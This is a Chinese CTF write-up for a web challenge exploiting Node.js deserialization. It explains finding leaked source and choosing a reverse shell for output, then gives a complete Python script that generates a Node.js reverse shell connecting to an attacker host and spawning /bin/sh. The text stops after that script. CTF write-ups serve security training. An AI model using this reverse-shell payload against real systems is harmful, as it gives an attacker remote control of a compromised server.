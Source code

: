 # Web

## 你好呀

### 考查要点

1. NodeJS 反序列化

### 解题过程

1. 打开题目，F12 查看源码，在注释中可以发现在`/app.js.bak`处可以查看源码。
2. 查看源码之后，发现一处反序列化，考虑使用反序列化来进行代码执行。
3. 由于 NodeJS 的代码执行在后端执行，没有回显，此处有几种常见方式获得回显：DNS 解析，HTTP 请求，反向 Shell（由于 docker 只开放了一个端口，无法使用正向 Shell）。
4. DNS 解析，HTTP 请求的利用方法大家可以自行搜索，此处展示使用反向 shell 的方法。首先，需要生成一个 nodejs 的反向 shell，脚本如下：

```python
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
```